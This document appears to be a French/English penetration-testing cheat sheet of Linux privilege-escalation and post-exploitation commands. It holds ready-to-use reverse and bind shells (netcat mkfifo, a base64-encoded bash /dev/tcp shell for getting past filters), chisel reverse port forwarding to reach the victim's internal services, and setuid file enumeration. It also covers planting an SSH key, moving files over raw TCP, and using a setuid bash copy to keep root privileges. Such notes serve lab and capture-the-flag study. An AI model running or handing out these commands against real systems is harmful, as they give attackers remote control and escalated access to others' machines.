# Privesc commands

## Shells

- **Reverse shell Netcat OpenBSD** :

  - Machine cible : 

    ```bash
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
    ```

  - Hôte :

    ```bash
    nc -lvp 4242
    ```

- **Bind shell** :

  ```bash
  $target nc -e /bin/sh -lvp 3333
  $host nc <ip_target> 3333
  ```

- **Shell without symbols (bypass filter) :**

  ```bash
  #B64 encode the shell like: echo "bash -c 'bash -i >& /dev/tcp/10.8.4.185/4444 0>&1'" | base64 -w0
  echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xNi80NDQ0IDA+JjEnCg== | base64 -d | bash 2>/dev/null
  ```

  

## Network

- **Listing open port listening on the machine** :

  ```bash
  netstat -tulnap
  ```

- **Port forwarding (to get access to localhost hosted application for instance or other targets) with [chisel][1] **:

  - Host :

    ```bash
    ./chisel server -p 9999 --reverse [open]
    ```

  - Target :

    ```bash
    ./chisel client [host_ip]:9999 R:127.0.0.1:9998:[remote_ip]:[remote_port]
    ```
    
    Explication  :
    
    - Le serveur (*machine de l'attaquant*) ouvre un port 
    - Le client (*machine victime*) s'y connecte
    - Le client créer une règle de port forwarding vers l'ip remote (ici, il dit au serveur qu'il est possible d'accéder à remote_ip:remote_port en requêtant sur 127.0.0.1:9998)



## File listing

- **Get owned files** :

  ```bash
  find / -type f -user $(whoami) 2>/dev/null | grep -v "/sys" | grep -v "/proc/"
  ```

- **Get setuid files **:

  ```bash
  find / -user root -perm -4000 -print 2>/dev/null
  ```



## Utilities

- **Beautify tty** :

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

CRTL + z (pour background le process du reverse_shell)
stty -a | head -n1 
(regarder les rows et columns)

stty raw -echo ; fg;
export TERM=xterm-256color ; stty rows 59 columns 235 ; reset
```

- **Generate public ssh key to put into .ssh/authorized_keys/id_rsa.pub** :

  ```bash
  ssh-keygen -t rsa -b 2048 -f mykey
  ```

- **Open host to download files from it **:

  - Host :

  ```bash
  cd /directory_you_want_to_dl_from
  python3 -m http.server 7878
  ```

  - Cible :

  ```bash
  wget http://<host-ip>:7878/<file>
  ```

- **Grep avec 2 lignes autour** :

  ```bash
  grep "term" -C 2
  ```

- **Connexion à mysql avec des identifiants** :

  ```bash
  mysql -u <user> -p
  ```

- **If no wget/curl on target** :

  - Host :

    ```bash
    nc -lvp 7878 < file
    ```

  - Cible :

    ```cat bash
    bash -c "cat /dev/tcp/IP/port > file" 
    ```

- **If /bin/bash copied from root with a setuid :**

  ```bash
  /path/to/copied/bash -p
  ```

- **Create files with special characters in its name :**

  ```bash
  touch -- <name file for example (e.g. --preserve=mode)>
  ```

- **Grep récursif :**

  ```bash
  grep -r "<text>" <répertoire de départ>
  ```

  

## References

[1]: https://www.youtube.com/watch?v=Yp4oxoQIBAM